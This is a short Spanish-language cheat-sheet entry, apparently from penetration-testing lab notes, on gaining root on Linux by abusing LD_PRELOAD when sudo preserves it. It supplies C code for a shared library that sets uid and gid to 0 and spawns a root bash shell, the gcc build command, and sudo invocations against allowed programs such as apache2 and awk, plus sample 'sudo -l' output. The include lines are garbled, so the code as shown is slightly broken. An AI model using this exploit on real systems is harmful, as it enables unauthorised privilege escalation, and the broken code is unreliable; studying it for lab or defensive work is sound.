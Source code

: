 ###  variable de entorno **LD_PRELOAD**

Abra un editor de texto y escriba:

```bash
include <stdio.h>
nclude <sys/types.h>
include <stdlib.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

guardelo como **x.c**

ahora ingresamos estos comandos:

```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles

sudo LD_PRELOAD=/tmp/x.so apache2

```

donde **apache2** es un programa que sale del resultado de **sudo -l**:

```bash
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

puede elegir cualquier otro que salga.

```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles

sudo LD_PRELOAD=/tmp/x.so awk

```
